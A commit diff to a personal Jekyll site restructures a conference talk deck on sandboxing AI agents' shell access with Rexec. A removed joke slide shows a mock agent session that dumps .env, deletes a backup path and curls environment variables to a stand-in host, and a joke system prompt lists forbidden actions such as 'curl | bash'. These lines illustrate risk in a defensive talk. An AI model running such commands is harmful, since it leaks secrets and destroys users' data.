

Before and after one commit to 9trocode/9trocode.github.io, a Jekyll site: the page built from talks/sysconf-2026.md, in a window 1280 px wide. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some web fonts are replaced; some of the changed lines change nothing that is shown.

Commit message:
Restructure SysConf talk from practice feedback.
Intro → goals → compressed content → conclusion → resources. Split
Rexec into component one-liners and a request dataflow diagram.
Add theme toggle so present mode can go white/light.

```diff
--- a/_config.yml
+++ b/_config.yml
@@ -1,4 +1,4 @@
-asset_version: "20260922-agent-hero"
+asset_version: "20260922-talk-v2"
 title: Alex Idowu
 description: >-
   Co-founder & CTO at PipeOps. Platform engineering, multi-tenant Kubernetes
--- a/_layouts/talk.html
+++ b/_layouts/talk.html
@@ -45,6 +45,7 @@
           <a class="talk-chrome__home" href="{{ '/' | relative_url }}">nitrocode</a>
           <p class="talk-chrome__meta">{{ page.event | default: 'Talk' }}{% if page.slot %} · {{ page.slot }}{% endif %}</p>
           <div class="talk-chrome__actions">
+            <button type="button" class="btn btn--ghost talk-btn" id="theme-toggle" aria-label="Toggle light and dark">Theme</button>
             <button type="button" class="btn btn--solid talk-btn" id="talk-present-toggle" {% if talk_locked %}hidden{% endif %}>Present</button>
             <a class="btn btn--ghost talk-btn" href="{{ '/talks/' | relative_url }}">All talks</a>
           </div>
--- a/assets/css/style.scss
+++ b/assets/css/style.scss
@@ -2109,3 +2109,67 @@
   max-width: min(56rem, 82vw);
   margin: 0.5rem 0 0.85rem;
 }
+
+.talk-hook {
+  margin: 0 0 0.75rem;
+  font-family: var(--mono);
+  font-size: 0.95rem;
+  color: var(--accent);
+  letter-spacing: 0.02em;
+}
+
+.talk-goals {
+  margin: 1rem 0 0;
+  padding-left: 1.2rem;
+}
+
+.talk-goals li {
+  margin: 0.55rem 0;
+  font-size: 1.1rem;
+  color: var(--ink);
+}
+
+.talk-goals__next {
+  font-family: var(--mono);
+  font-size: 0.8rem;
+  color: var(--ink-3);
+}
+
+.talk-oneliners {
+  margin: 0.75rem 0 0;
+  padding-left: 1.15rem;
+  max-width: 44rem;
+}
+
+.talk-oneliners li {
+  margin: 0.55rem 0;
+  color: var(--ink-2);
+}
+
+.talk-oneliners strong {
+  color: var(--ink);
+}
+
+.talk-diagram--flow svg {
+  display: block;
+  width: 100%;
+  height: auto;
+  max-width: 56rem;
+  color: var(--ink);
+  background: transparent;
+}
+
+.talk-page.is-presenting .talk-diagram--flow svg {
+  max-width: min(58rem, 88vw);
+}
+
+/* Present mode: respect theme (white/light allowed) */
+.talk-page.is-presenting .talk-slide {
+  background: var(--bg);
+  color: var(--ink);
+}
+
+.talk-page.is-presenting[data-theme="light"] .talk-slide,
+html[data-theme="light"] .talk-page.is-presenting .talk-slide {
+  background: var(--bg);
+}
--- a/talks/sysconf-2026.md
+++ b/talks/sysconf-2026.md
@@ -2,14 +2,12 @@
 layout: talk
 title: How to Safely Give AI Agents a Terminal
 description: >-
-  Giving an agent a shell is useful. Giving it your machine is not. How to
-  reason about security, enforce limits, control network access, and build
-  disposable terminals - lessons from Rexec. Live demo.
+  Rexec: how to safely give AI agents a terminal. Isolation, limits, network,
+  and lifecycle for disposable Linux sandboxes - from building Rexec. Live demo.
 permalink: /talks/sysconf-2026/
 event: SysConf 2026
 slot: "Sat 3 Oct · 12:25-12:55 WAT · Room 1 · Standard 30m"
 talk_date: 2026-10-03
-# Public teaser while talk_date is in the future. Speaker: ?key= or unlock form.
 speaker_key: sysconf-2026-rexec
 blog: /blog/2026/08/11/how-to-safely-give-ai-agents-a-terminal
 repo: https://github.com/PipeOpsHQ/Rexec
@@ -17,22 +15,21 @@
 ---
 
 <div class="talk-intro">
-  <p class="eyebrow">SysConf 2026 · Standard</p>
+  <p class="eyebrow">SysConf 2026 · Standard · 25 + 5</p>
   <h1>How to Safely Give AI Agents a Terminal</h1>
   <div class="talk-intro__meta">
-    <p>Alex Idowu · Co-founder &amp; CTO, PipeOps · Lagos</p>
-    <p><strong>Sat 3 Oct 2026 · 12:25-12:55 WAT · Room 1</strong><br>
-    25 min talk + 5 min Q&amp;A · live Rexec sandbox demo</p>
+    <p>Alex Idowu · PipeOps · Lagos</p>
+    <p><strong>Sat 3 Oct 2026 · 12:25-12:55 WAT · Room 1</strong></p>
     <p>
-      Field notes:
-      <a href="/blog/2026/08/11/how-to-safely-give-ai-agents-a-terminal">blog post</a>
+      <a href="/blog/2026/08/11/how-to-safely-give-ai-agents-a-terminal">Field notes</a>
       ·
       <a href="https://github.com/PipeOpsHQ/Rexec" target="_blank" rel="noopener">Rexec</a>
     </p>
   </div>
-  <p class="talk-keys">Present · <kbd>P</kbd> or button · Navigate <kbd>→</kbd> <kbd>←</kbd> · Esc exits · Deep link <code>?present=1</code></p>
+  <p class="talk-keys">Present <kbd>P</kbd> · Theme toggle in chrome · <kbd>→</kbd> <kbd>←</kbd> · <code>?present=1</code> · speaker <code>?key=</code></p>
 </div>
 
+<!-- 01 Intro / hook -->
 <section class="talk-slide talk-slide--elbaph is-active" id="s01" data-slide="1">
   <div class="talk-elbaph" aria-hidden="true">
     <img
@@ -46,184 +43,149 @@
     />
   </div>
   <div class="talk-slide__fore">
-    <p class="talk-slide__label">01 · Title</p>
+    <p class="talk-slide__label">01 · Intro</p>
+    <p class="talk-hook">Rexec: how to safely give AI agents a terminal</p>
     <h2>How to Safely Give AI Agents a Terminal</h2>
-    <p>Alex Idowu · PipeOps · Lagos</p>
-    <p class="ok">SysConf 2026 · Room 1</p>
+    <p>Alex Idowu · PipeOps · Lagos · SysConf 2026</p>
   </div>
 </section>
 
+<!-- 02 Intro / problem -->
 <section class="talk-slide" id="s02" data-slide="2">
-  <p class="talk-slide__label">02 · Problem</p>
+  <p class="talk-slide__label">02 · Intro</p>
   <div class="talk-split">
     <div class="talk-split__main">
-      <h2>Giving an agent a shell is useful.<br>Giving it your machine is not.</h2>
-      <p>Agents that run commands are common. <strong>Unrestricted shell access</strong> on a laptop, bastion, or shared runner is still the default.</p>
-      <p class="punch">The mistake is the blast radius - not the shell.</p>
+      <h2>Shell is useful.<br>Your machine is not.</h2>
+      <p>Coding agents that run commands are common. Unrestricted shell on a laptop, bastion, or shared runner is still the default.</p>
+      <p class="punch">Blast radius is the problem - not the shell.</p>
     </div>
-    <aside class="talk-prompt-joke" aria-label="Joke: the usual control plane">
+    <aside class="talk-prompt-joke" aria-label="Joke: system prompt control plane">
       <p class="talk-prompt-joke__tag">system prompt</p>
-      <pre class="talk-prompt-joke__body">You are a careful coding agent.
+      <pre class="talk-prompt-joke__body">NEVER delete files.
+NEVER touch ~/.kube.
+NEVER curl | bash.
 
-NEVER delete files.
-NEVER read ~/.ssh or ~/.kube.
-NEVER exfiltrate secrets.
-NEVER curl | bash.
-NEVER phone home.
-Always ask before anything scary.
+(You have full shell.)
 
-(You have full shell access.)</pre>
-      <p class="talk-prompt-joke__footer">
-        <span class="talk-prompt-joke__dialog">Dialog:</span> Approve tool use?
-        <span class="talk-prompt-joke__btns">[ Allow once ] [ Always allow ]</span>
-      </p>
-      <p class="talk-prompt-joke__caption">This is not a control plane.</p>
+Approve tool use?
+[ Always allow ] ✓</pre>
+      <p class="talk-prompt-joke__caption">Not a control plane.</p>
     </aside>
   </div>
 </section>
 
+<!-- 03 Goals -->
 <section class="talk-slide" id="s03" data-slide="3">
-  <p class="talk-slide__label">03 · Why the default fails</p>
-  <div class="talk-split">
-    <div class="talk-split__main">
-      <h2>Why the default fails</h2>
-      <ul>
-        <li>Secrets land on disk</li>
-        <li>Creative <code>rm</code> / path expansion</li>
-        <li>Env leaves over HTTPS or DNS</li>
-        <li>Packages phone home</li>
-        <li><code>~/.kube</code> (Kubernetes credentials) and other prod creds sit next to the agent</li>
-      </ul>
-      <p>No jailbreak required. Models thrash. Hope is not a control.</p>
-    </div>
-    <aside class="talk-prompt-joke" aria-label="Joke: agent session on your laptop">
-      <p class="talk-prompt-joke__tag">agent · localhost</p>
-      <pre class="talk-prompt-joke__body">$ cat .env >> /tmp/debug.txt
-$ rm -rf "$PROJECT"/../backup
-$ curl -s https://example.test/hook -d "$(env)"
-$ npm i -g everything
-# still exploring…
-
-Approve tool use?  →  Always allow ✓</pre>
-      <p class="talk-prompt-joke__caption">No jailbreak. Just Tuesday.</p>
-    </aside>
-  </div>
+  <p class="talk-slide__label">03 · Goals</p>
+  <h2>What we’ll cover</h2>
+  <p>Lessons from building <strong>Rexec</strong> - disposable, network-isolated Linux terminals (cloud or your own machines).</p>
+  <ol class="talk-goals">
+    <li><strong>Security</strong> - how to reason about isolation <span class="talk-goals__next">→ next</span></li>
+    <li><strong>Limits</strong> - how to enforce CPU / memory / TTL</li>
+    <li><strong>Network</strong> - how to control egress and peers</li>
+    <li><strong>Lifecycle</strong> - create → run → delete</li>
+    <li><strong>Build</strong> - Rexec components, then how a request flows</li>
+    <li><strong>Demo</strong> - prove it live</li>
+  </ol>
+  <p class="ok">Authoritative on the controls. Relaxed on the delivery.</p>
 </section>
 
+<!-- 04 Content: security + limits -->
 <section class="talk-slide" id="s04" data-slide="4">
-  <p class="talk-slide__label">04 · What this talk answers</p>
-  <div class="talk-split">
-    <div class="talk-split__main">
-      <h2>What this talk answers</h2>
-      <p>From building <strong>Rexec</strong> - an open-source control plane for disposable, network-isolated Linux terminals (cloud or your own machines):</p>
-      <ol>
-        <li>How do you <strong>reason about security</strong>?</li>
-        <li>How do you <strong>enforce resource limits</strong>?</li>
-        <li>How do you <strong>control network access</strong>?</li>
-        <li>How do you <strong>build</strong> a tool like that?</li>
-      </ol>
-      <p class="ok">Isolation + lifecycle. Not a prompting talk.</p>
+  <p class="talk-slide__label">04 · Content · security &amp; limits</p>
+  <h2>Isolation and resource limits</h2>
+  <div class="talk-grid">
+    <div class="talk-card">
+      <strong>Security</strong>
+      <span>Ladder: cgroup + caps → <strong>gVisor</strong> (<code>runsc</code>, user-space kernel - my default) → Firecracker → dedicated. Stock containers share the host kernel.</span>
     </div>
-    <aside class="talk-prompt-joke" aria-label="Joke: wrong talk vs this talk">
-      <p class="talk-prompt-joke__tag">not on the agenda</p>
-      <pre class="talk-prompt-joke__body">✗ Better system prompts
-✗ Temperature = 0
-✗ “Please be careful”
-✗ Tool-use etiquette tips
-
-✓ Isolation
-✓ Resource limits
-✓ Network control
-✓ Lifecycle (create → delete)</pre>
-      <p class="talk-prompt-joke__caption">Come for the answers. Stay for the sandbox.</p>
-    </aside>
+    <div class="talk-card">
+      <strong>Limits</strong>
+      <span>Hard CPU / memory / PIDs. Concurrency + <strong>TTL</strong> (kill on a timer). Thrash is a DoS on yourself. Limits = security.</span>
+    </div>
   </div>
+  <p class="punch">Rexec trade-off: density + hosts without KVM → gVisor default. Escalate to Firecracker when the threat model says so.</p>
 </section>
 
+<!-- 05 Content: network + lifecycle -->
 <section class="talk-slide" id="s05" data-slide="5">
-  <p class="talk-slide__label">05 · Security + limits</p>
-  <h2>Security and resource limits</h2>
+  <p class="talk-slide__label">05 · Content · network &amp; lifecycle</p>
+  <h2>Network and lifecycle</h2>
   <div class="talk-grid">
     <div class="talk-card">
-      <strong>Reason about isolation</strong>
-      <span>
-        <strong>cgroup</strong> = Linux resource controls. <strong>caps</strong> = Linux capabilities (what root-like powers a process keeps).<br><br>
-        Ladder: cgroup + caps → <strong>gVisor</strong> (<code>runsc</code> = its OCI runtime; user-space kernel between container and host - my default) → <strong>Firecracker</strong> (microVM, own guest kernel) → dedicated node.<br><br>
-        Stock containers share the host kernel. Name the rung.
-      </span>
-    </div>
-    <div class="talk-card">
-      <strong>Enforce limits</strong>
-      <span>Hard CPU / memory / PID caps. Concurrency caps + <strong>TTL</strong> (time-to-live - kill the sandbox on a timer). Thrashing agents are a DoS on yourself. Limits = security, not just FinOps.</span>
-    </div>
-  </div>
-  <p class="punch">Trade-off I made in Rexec: needed density on shared hosts and hosts without KVM → gVisor default. Pay syscall/compat tax. Escalate to Firecracker when the threat model says so.</p>
-</section>
-
-<section class="talk-slide" id="s06" data-slide="6">
-  <p class="talk-slide__label">06 · Network + lifecycle</p>
-  <h2>Network access and lifecycle</h2>
-  <div class="talk-grid">
-    <div class="talk-card">
-      <strong>Control the network</strong>
-      <span>
-        A shell is a network endpoint. Peer traffic, cloud metadata, HTTPS, DNS, demo ports.<br><br>
-        Pick at create: <strong>none</strong> · <strong>allowlist</strong> · <strong>full</strong> (you accepted the leak).<br><br>
-        <strong>ICC</strong> = inter-container communication on a Docker bridge. ICC off ≠ “no internet” - it only stops sandbox-to-sandbox on that bridge.
-      </span>
+      <strong>Network</strong>
+      <span>A shell is a network endpoint. Pick at create: <strong>none</strong> · <strong>allowlist</strong> · <strong>full</strong>. <strong>ICC</strong> off only stops sandbox-to-sandbox on a Docker bridge - not “no internet.”</span>
     </div>
     <div class="talk-card">
       <strong>Lifecycle</strong>
-      <span>Create → short-lived secrets → run → attach if needed → <strong>delete</strong>. Long-lived sandboxes become bastions with worse accountability.</span>
+      <span>Create → short-lived secrets → run → attach if needed → <strong>delete</strong>. Long-lived sandboxes become bastions.</span>
     </div>
   </div>
 </section>
 
-<section class="talk-slide" id="s07" data-slide="7">
-  <p class="talk-slide__label">07 · Building Rexec</p>
-  <h2>How you build something like Rexec</h2>
-  <figure class="talk-diagram talk-diagram--flow">
-    <img
-      src="{{ '/assets/talks/rexec-architecture.svg?v=' | append: site.asset_version | relative_url }}"
-      alt="Rexec flow: Browser UI over WebSocket to Rexec API and PostgreSQL, then Container Manager to Docker for cloud sandboxes, or Agent Handler outbound WebSocket to remote BYOS agents"
-      width="920"
-      height="420"
-      loading="lazy"
-      decoding="async"
-    />
-  </figure>
-  <p>From the real stack: UI ↔ API (WebSocket) ↔ Postgres, then <strong>Container Manager → Docker</strong> or <strong>Agent Handler → remote agents</strong> (outbound only).</p>
-  <p><strong>BYOS</strong> = bring your own server. Steal the shape: Kubernetes <strong>Jobs</strong> + <strong>RuntimeClass</strong> + <strong>NetworkPolicy</strong>.</p>
-  <p class="punch">Failures I’ve hit (say out loud): Docker socket, full egress, no TTL, prompt-as-boundary, gVisor in README / runc in prod.</p>
+<!-- 06 Content: components one-liners (was part of 07) -->
+<section class="talk-slide" id="s06" data-slide="6">
+  <p class="talk-slide__label">06 · Content · components</p>
+  <h2>Rexec pieces - one line each</h2>
+  <ul class="talk-oneliners">
+    <li><strong>Browser / CLI</strong> - where humans and agents attach (xterm.js, API clients).</li>
+    <li><strong>Rexec API</strong> - auth, policy, create / exec / delete, WebSocket sessions.</li>
+    <li><strong>PostgreSQL</strong> - users, agents, session metadata.</li>
+    <li><strong>Container Manager</strong> - talks to Docker for disposable cloud sandboxes (limits, network, runtime).</li>
+    <li><strong>Docker Engine</strong> - where cloud sandboxes actually run.</li>
+    <li><strong>Agent Handler</strong> - relays sessions to machines you connect.</li>
+    <li><strong>BYOS agent</strong> - outbound WebSocket from your laptop/server; no inbound SSH.</li>
+  </ul>
 </section>
 
+<!-- 07 Content: architecture dataflow -->
+<section class="talk-slide" id="s07" data-slide="7">
+  <p class="talk-slide__label">07 · Content · dataflow</p>
+  <h2>What happens when you send a request</h2>
+  <figure class="talk-diagram talk-diagram--flow">
+    {% include talk-rexec-dataflow.svg %}
+  </figure>
+  <p>Input → API (auth/route) → persist → <strong>Docker sandbox</strong> or <strong>BYOS agent</strong> → stream output back.</p>
+</section>
+
+<!-- 08 Demo -->
 <section class="talk-slide" id="s08" data-slide="8">
-  <p class="talk-slide__label">08 · Live demo</p>
-  <h2>Live: create → prove controls → delete</h2>
+  <p class="talk-slide__label">08 · Content · demo</p>
+  <h2>Live: create → prove → delete</h2>
   <ol>
-    <li>Create (limits + network mode)</li>
-    <li>Show the block - egress or peer</li>
+    <li>Create sandbox (limits + network)</li>
+    <li>Show the block</li>
     <li>Run something agent-shaped</li>
     <li><strong>Delete</strong></li>
   </ol>
   <div class="talk-code">rexec sandbox create --network none
-# show the failure / block
+# show the block
 rexec sandbox delete</div>
-  <p>Wifi bad? Same four steps on screenshots.</p>
 </section>
 
+<!-- 09 Conclusion -->
 <section class="talk-slide" id="s09" data-slide="9">
-  <p class="talk-slide__label">09 · Steal this + close</p>
+  <p class="talk-slide__label">09 · Conclusion</p>
   <h2>Steal this</h2>
   <ol>
     <li>No agent shell on laptops for secrets / prod</li>
     <li>One sandbox per task - then delete</li>
     <li>gVisor or stronger for untrusted agent code</li>
-    <li>Egress on purpose; treat DNS as data</li>
-    <li>Hard caps + TTL; outbound over inbound SSH for real boxes</li>
+    <li>Egress on purpose; DNS is data</li>
+    <li>Hard caps + TTL; outbound over inbound SSH</li>
   </ol>
-  <p class="punch">Giving an agent a shell is useful. Giving it your machine is not.</p>
-  <div class="talk-code">github.com/PipeOpsHQ/Rexec
-/blog/2026/08/11/how-to-safely-give-ai-agents-a-terminal</div>
-  <p>Questions? · Alex Idowu · @nitrocode</p>
+  <p class="punch">Shell is useful. Your machine is not.</p>
 </section>
+
+<!-- 10 Resources -->
+<section class="talk-slide" id="s10" data-slide="10">
+  <p class="talk-slide__label">10 · Resources</p>
+  <h2>Resources</h2>
+  <ul class="talk-oneliners">
+    <li><strong>Rexec</strong> - <a href="https://github.com/PipeOpsHQ/Rexec">github.com/PipeOpsHQ/Rexec</a></li>
+    <li><strong>Docs</strong> - <a href="https://rexec.sh/docs">rexec.sh/docs</a></li>
+    <li><strong>Field notes</strong> - <a href="/blog/2026/08/11/how-to-safely-give-ai-agents-a-terminal">nitrocode.sh/blog/…/how-to-safely-give-ai-agents-a-terminal</a></li>
+    <li><strong>This deck</strong> - <a href="/talks/sysconf-2026/">nitrocode.sh/talks/sysconf-2026</a></li>
+  </ul>
+  <p>Questions? · @nitrocode · Lagos</p>
+</section>
```
Also changed, not shown: _includes/talk-rexec-dataflow.svg (added), assets/talks/rexec-dataflow.svg (added).
